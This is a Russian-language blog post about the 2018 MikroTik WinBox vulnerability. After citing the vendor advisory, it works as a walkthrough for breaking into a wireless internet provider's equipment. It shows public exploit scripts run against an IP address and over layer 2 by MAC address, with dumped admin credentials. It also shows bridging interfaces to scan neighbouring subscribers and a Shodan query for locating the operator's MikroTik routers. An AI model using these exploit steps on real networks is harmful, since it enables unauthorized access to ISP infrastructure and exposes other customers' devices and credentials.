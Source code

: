 ```yaml
---
title: "Mikrotik WinBoxExploit изучаем оператора радио-доступа."
date: 2018-12-05 09:52:51 +0000
categories:
  - mikrotik
tags:
  - exploit
sidebar:
  - title: "Mikrotik WinBoxExploit"
    image: http://placehold.it/350x250
    image_alt: "image"
    text: "Some text here."
  - title: "Another Title"
    text: "More text here."
---
```

 
Первая новость о взломе на сайте Mikrotik  появилась 25 марта 2018 г. 
https://blog.mikrotik.com/security/winbox-vulnerability.html (update 9th Oct, 2018 New Exploit )

В ней говорится что уязвимость  обнаружена в версиях:

*Affected all bugfix releases from 6.30.1 to 6.40.7, fixed in 6.40.8 on 2018-Apr-23
*Affected all current releases from 6.29 to 6.42, fixed in 6.42.1 on 2018-Apr-23
*Affected all RC releases from 6.29rc1 to 6.43rc3, fixed in 6.43rc4 on on 2018-Apr-23

На странице [https://github.com/BigNerd95/WinboxExploit](https://github.com/BigNerd95/WinboxExploit), выложен python скрипт взлома пароля к роутерам mikrotik.

Более подробно о методике выявления уязвимости рассказано на странице [https://n0p.me/winbox-bug-dissection/](https://n0p.me/winbox-bug-dissection/), ссылка есть на github у того же [BigNerd95](https://github.com/BigNerd95/WinboxExploit).

  Вероятно, можно построить свою ботнет сеть, с помощью  такой уязвимости и уже кто-то это сделал:  
  * На взломанных роутерах появились надписи HACKED FTP server, HACKED-ROUTER-HELP-SOS-WAS-MFWORM-INFECTED или HACKED-ROUTER-HELP-SOS-HAD-DEFAULT-PASSWORD ([см более подробно на сайте хакер](https://xakep.ru/2018/03/29/hajime-hunts-mikrotik/)).
  * Также есть герой с [https://habr.com/users/LMonoceros/](https://habr.com/users/LMonoceros/ )  который написал скрипт , который заблокировал эту уязвимость     и оставил доступ только из локальной сети [Для чего хакерам Микротик и как я спрятал 100 тыс. RouterOS от ботнета](https://habr.com/post/424433/) 

Для того что бы применить скрипт, нет ничего сложного: 
```bash
# python WinboxExploit.py  _ip_address_
```
результатом будет: 
{% highlight python %}
5.14.128.18
User: root
Pass:
User: admin
Pass:
User: admin
Pass: ddsER
User: create
Pass: WBCWGwewe
{% endhighlight %}

### Немножко усложним задачу:
-<s>Взломаем</s> Изучим оператора, который предоставляет вам радиодоступ, когда мы не знаем _IP address_ оборудования или если он не настроен . У нас есть только прямое подключение к клиентскому оборудованию, которое по радио подлючено к точке доступа оператора.

![]({{ site.baseurl }}/uploads/800-IMG_20160430_143159.jpg "пример подключения")

Данный exploit позволяет просканировать L2 сегмент сети и обнаружить mac адреса Mikrotik.
```bash
$ python MACServerDiscover.py
Looking for Mikrotik devices (MAC servers)
    aa:bb:cc:dd:ee:ff 
    aa:bb:cc:dd:ee:aa
```
После чего запускаем уже следующий скрипт.
```bash
$ python MACServerExploit.py aa:bb:cc:dd:ee:ff
User: admin
Pass: Th3P4ssWord
```

Дальше можно применить свои знания и умения по подключению через winbox, ssh,  telnet, к оборудониваю и узнать ssid security. Что даст нам вожможность заменить оконечное оборудование самостоятельно, к примеру при покупке более мощной абонентской точкой доступа.

Если оператор  не позаботился о безопасности, и не запретил _forwarding_ между абонентскими точками доступа, можно настроить bridge между ether1 и wlan1 и просканировать по mac адресам соседей/сектора.  
```bash
/interface bridge
add name=bridge1
/interface bridge port
add bridge=bridge1 interface=ether1
add bridge=bridge1 interface=wlan1
```
### Усложним задачу еще немножко:

Используя сервис [https://bgp.he.net](https://bgp.he.net), узнаем свой ip_address и prefixv4 своего оператора, проверим его на сервисе [https://shodan.io](https://shodan.io).
Введя  в строке поиска (_доступно после регистрации_)
```bash
mikrotik net:"5.140.28.0/19"
```
и получим:
![]({{ site.baseurl }}/uploads/shodan.png "результаты поиска")



### Sysadmin не забывай обновлять routeros , настривать правила доступа к оборудованию.

